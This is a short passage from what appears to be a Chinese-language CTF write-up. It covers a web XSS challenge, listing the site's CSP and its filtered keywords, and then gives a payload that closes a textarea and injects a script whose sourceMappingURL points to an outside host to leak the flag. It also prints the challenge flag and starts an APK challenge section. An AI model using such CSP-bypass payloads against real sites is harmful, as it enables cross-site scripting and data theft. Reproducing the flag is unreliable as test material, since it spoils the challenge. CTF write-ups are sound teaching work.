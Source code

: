 ```
			print s
			break
```

# web2 #

稍微翻翻站，其实没什么功能，只有contact.php这里是一个有返回的功能，其他的都是直接跳#的，那么问题就是这个了
```
http://58.213.63.30:10006/a0f1b29db350fdac2ad6dc4cb92dbd2b/message.php


Name=dsafim<link>gafsadsa&Email=123%40qq.com&Team=1321321&textarea=321421321
```

CSP
```
Content-Security-Policy	
default-src 'self'; script-src 'self' 'unsafe-inline';
```

这题其实最大的问题就是太过严格的过滤以及盲测，除了textarea有判断以外，其他的都没什么检测，事实是只记录了这个,script很随便，但过滤了：
```
eval
document
location
href
window
src
svg
img
open
callback
单双引号
括号
反斜杠
$\#
```

问题的核心其实是没有括号，没有任何办法绕过传入字符串，也没办法打cookie，后来没办法找到了长短短的bypass csp方式，获取请求的时候发现直接拿到了flag...

payload

```
</textarea><script>//@ sourceMappingURL=http://0xb.pw</script>


zctf%7Be042d9c03263521c86025a4b47b03055%7D
```

# web3 eazy apk #

分析apk，找到http://58.213.63.30:10005/
